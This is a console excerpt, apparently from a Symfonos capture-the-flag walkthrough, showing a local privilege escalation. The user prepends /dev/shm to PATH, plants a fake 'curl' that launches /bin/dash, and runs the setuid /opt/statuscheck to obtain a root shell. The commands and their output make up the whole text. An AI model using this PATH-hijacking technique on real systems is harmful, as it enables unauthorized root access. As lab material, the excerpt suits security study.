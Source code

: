 ```console
helios@symfonos:/dev/shm$ echo $PATH
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
helios@symfonos:/dev/shm$ export PATH=/dev/shm:$PATH
export PATH=/dev/shm:$PATH
helios@symfonos:/dev/shm$ echo $PATH
echo $PATH
/dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

helios@symfonos:/dev/shm$ echo '/bin/dash' > curl 
helios@symfonos:/dev/shm$ chmod +x curl 
helios@symfonos:/dev/shm$ /opt/statuscheck 
# id
uid=1000(helios) gid=1000(helios) euid=0(root) groups=1000(helios),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
# whoami
root
```

